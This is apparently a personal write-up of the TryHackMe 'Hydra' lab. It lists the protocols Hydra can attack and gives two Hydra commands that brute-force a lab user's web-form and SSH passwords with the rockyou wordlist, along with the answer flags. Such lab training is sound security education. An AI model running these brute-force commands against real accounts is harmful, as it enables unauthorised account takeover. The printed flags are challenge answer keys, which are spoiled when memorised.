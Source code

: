 ```yaml
---
title: Hydra 
date: 2022-06-20 18:32:00 -0500
categories: [Lesson, Tryhackme]
tags: [hydra]
---
```



---

title: Hydra
published: true
---

Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials. 

[https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

![](/assets/hydra.jpeg)

* * *

## Task 1 - Hydra Introduction 

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: https://en.kali.tools/?p=220

* * * 

## Task 2 - Using Hydra 

##   Answer the questions below

**Use Hydra to bruteforce molly's web password. What is flag 1?**

- ``hydra -t 16 -l molly -P /usr/share/seclists/Passwords/rockyou.txt 10.10.84.248 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"``

- THM{2673a7dd116de68e85c48ec0b1f2612e}

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

- ``hydra -t 16 -l molly -P /usr/share/seclists/Passwords/rockyou.txt 10.10.84.248 ssh``

- THM{c8eeb0468febbadea859baeb33b2541b}

* * * 